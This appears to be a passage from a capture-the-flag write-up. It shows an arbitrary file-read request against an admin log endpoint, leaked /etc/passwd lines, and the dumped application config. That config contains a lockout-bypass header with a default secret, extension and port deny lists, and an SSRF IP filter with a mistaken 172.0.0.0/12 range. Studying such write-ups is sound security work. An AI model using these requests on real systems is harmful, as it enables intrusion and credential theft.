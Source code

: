 ```txt
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

In the `/proc/self/cwd/config.py` . you can get the profile

```html
GET /admin/get_system_log?log_identifier=/proc/self/cwd/config.py HTTP/1.1
```

```python
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'

os.makedirs(UPLOAD_FOLDER, exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'converted'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'transformed'), exist_ok=True)
os.makedirs(SYSTEM_LOG_FOLDER, exist_ok=True)

MAX_LOGIN_ATTEMPTS = 10
ACCOUNT_LOCKOUT_DURATION_MINS = 1

ALLOWED_MEDIA_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff', 'pdf'}
ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff'}
ALLOWED_UPLOAD_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff',
    'application/pdf'
}
ALLOWED_TRANSFORM_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff'
}
MAX_FILE_SIZE_MB = 1
MAX_FILE_SIZE_BYTES = MAX_FILE_SIZE_MB * 1024 * 1024

BYPASS_LOCKOUT_HEADER = 'X-Bypass-Lockout'
BYPASS_LOCKOUT_VALUE = os.getenv('CRON_BYPASS_TOKEN', 'default-secret-token-for-dev')

FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
BLOCKED_APP_PORTS = {8080, 8443, 3000, 5000, 8888, 53}
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
PRIVATE_IP_RANGES = [
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('172.0.0.0/12'),
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16')
]
AWS_METADATA_IP = ipaddress.ip_address('169.254.169.254')
IMAGEMAGICK_CONVERT_PATH = '/usr/bin/convert'
EXIFTOOL_PATH = '/usr/bin/exiftool'
```
